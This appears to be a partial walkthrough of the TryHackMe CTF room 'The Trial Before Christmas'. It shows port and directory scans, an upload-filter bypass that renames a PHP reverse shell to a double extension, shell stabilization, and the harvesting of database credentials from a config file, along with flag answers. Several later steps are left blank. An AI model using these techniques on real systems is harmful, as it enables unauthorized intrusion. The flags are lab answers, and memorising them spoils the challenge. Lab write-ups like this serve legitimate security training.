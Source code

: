 ```yaml
---
description: Web
---
```


# The Trial Before Christmas

## Video

## Resources

## Challenges

### Scan the machine. What ports are open?

```text
nmap -sC -sV -T5 -p1-65535 10.10.243.219
```

![](../.gitbook/assets/image%20%28366%29.png)

{% hint style="success" %}
80, 65000
{% endhint %}

### What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.

```text
gobuster dir -u http://10.10.243.219 -w /usr/share/dirb/wordlists/common.txt
```

![](../.gitbook/assets/image%20%28369%29.png)

```text
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](../.gitbook/assets/image%20%28361%29.png)

![](../.gitbook/assets/image%20%28359%29.png)

{% hint style="success" %}
Light Cycle
{% endhint %}

### What is the name of the hidden php page?

```text
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](../.gitbook/assets/image%20%28360%29.png)

{% hint style="success" %}
uploads.php
{% endhint %}

### What is the name of the hidden directory where file uploads are saved?

{% hint style="success" %}
grid
{% endhint %}

### Bypass the filters. Upload and execute a reverse shell. 

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

![](../.gitbook/assets/image%20%28364%29.png)

![](../.gitbook/assets/image%20%28367%29.png)

![](../.gitbook/assets/image%20%28365%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

### What is the value of the web.txt flag?



![](../.gitbook/assets/image%20%28363%29.png)

{% hint style="success" %}
THM{ENTER\_THE\_GRID}
{% endhint %}

### Upgrade and stabilize your shell.

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

{% hint style="success" %}
No answer needed
{% endhint %}

### Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? **username:password**

```text
cd /var/www/
cd TheGrid
cd includes
cat dbauth.php
```

![](../.gitbook/assets/image%20%28362%29.png)

{% hint style="success" %}
tron:IFightForTheUsers
{% endhint %}

### Access the database and discover the encrypted credentials. What is the name of the database you find these in?



### Crack the password. What is it?



### Use su to login to the newly discovered user by exploiting password reuse.



### What is the value of the user.txt flag?



### Check the user's groups. Which group can be leveraged to escalate privileges?

###  

### Abuse this group to escalate privileges to root.



### What is the value of the root.txt flag?



